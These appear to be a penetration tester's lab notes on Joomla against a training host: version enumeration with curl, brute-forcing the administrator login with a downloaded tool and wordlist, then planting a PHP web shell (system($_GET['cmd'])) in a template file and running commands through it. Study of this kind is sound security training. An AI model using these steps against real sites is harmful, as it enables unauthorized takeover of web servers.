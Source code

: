 ### Enumeration

Joomla collect anonymous stats:

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool
```

Verify Joomla is in use:

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla
```

Robots.txt:

```bash
curl -s http://dev.inlanefreight.local/robots.txt
```

Verify version:

```bash
curl -s http://dev.inlanefreight.local/README.txt | head -n 5
```

Probably the best way to get the version:

```bash
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml | xmllint --format -
```

Another way:

```bash
curl -s http://dev.inlanefreight.local/language/en-GB/en-GB.xml
```

Automation (Not good at enumerating version):

```bash
sudo pip3 install droopescan
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### Attack

Bruteforcing:

Admin Portal: `http://dev.inlanefreight.local/administrator/index.php`

Default username `admin`

Download bruteforcing tool:

```
git clone https://github.com/ajnik/joomla-bruteforce.git
```

Run:

```bash
python3 joomla-brute.py -u http://dev.inlanefreight.local -w /opt/metasploit-framework/embedded/framework/data/wordlists/http_default_pass.txt -usr admin
```

Code Execution:

Once logged in go to `templates`

![[Pasted image 20250131162653.png]]

Select a template:

![[Pasted image 20250131162717.png]]

Pick a php file

![[Pasted image 20250131162758.png]]

Add `system($_GET['cmd']);` into file and `Save & Close:`

![[Pasted image 20250131162848.png]]

Use CURL for RCE:

```bash
curl -s http://app.inlanefreight.local/templates/protostar/error.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


